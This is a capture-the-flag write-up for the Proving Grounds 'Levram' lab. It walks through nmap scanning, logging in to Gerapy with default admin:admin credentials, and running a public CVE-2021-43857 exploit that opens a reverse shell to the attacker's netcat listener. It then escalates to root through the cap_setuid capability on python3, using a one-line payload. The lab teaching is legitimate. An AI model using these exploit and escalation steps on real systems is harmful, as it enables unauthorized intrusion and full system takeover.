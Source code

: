 ```yaml
---
title: "Proving grounds Play: Levram"
layout: post
date: 2023-10-07 02:00
categories: writeup
---
```


Proving grounds Practice - Levram CTF writeup.

## Nmap

```text
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9bc8f013f855df95cd9fbb615a01e74 (ECDSA)
|_  256 53d97f3d228afd5798fe6b1a4cac7967 (ED25519)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Date: Sat, 07 Oct 2023 11:16:52 GMT
|     Server: WSGIServer/0.2 CPython/3.10.6
|     Content-Type: text/html
|     Content-Length: 9979
|_    Vary: Origin
```

## 8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6

http://192.168.211.24:8000/#/login

![img](/assets/images/CTF/Proving_Grounds/Levram/web.png)

The application uses default credentials `admin:admin` and it is vulnerable to [Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50640). 

> **Note:**
>
> If the application doesn't have any projects the exploit will throw an error, a project must exist for the exploit to work properly.

## Initial Foothold

Login to the application using the credentials and create a new project. Now run the exploit and ensure the netcat listener is running.

**Exploitation**

```sh
naveenj@hackerspace:|07:21|~/proving_grounds/Levram/exploit$ python2 exploit.py -t 192.168.211.24 -p 8000 -L 192.168.45.193 -P 4444
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
[*] Found project: test
[*] Getting the ID of the project to build the URL
('[*] Found ID of the project: ', 1)
[*] Setting up a netcat listener
listening on [any] 4444 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
```

**Reverse Shell Obtained**

```sh
naveenj@hackerspace:|07:20|~/proving_grounds/Levram/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.193] from (UNKNOWN) [192.168.211.24] 42252
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$
```

**Initial Foothold Obtained**

## Privilege Escalation

Check the extended capabilities in the system.

```sh
app@ubuntu:~/gerapy$ getcap -r / 2/dev/null    #get the extended capabilites
/usr/bin/python3.10 cap_setuid=ep   #exploitable
```

### Exploitation

```sh
app@ubuntu:/tmp$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id
uid=0(root) gid=1000(app) groups=1000(app)
```

**Root Obtained**

## References

- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example)
- [https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).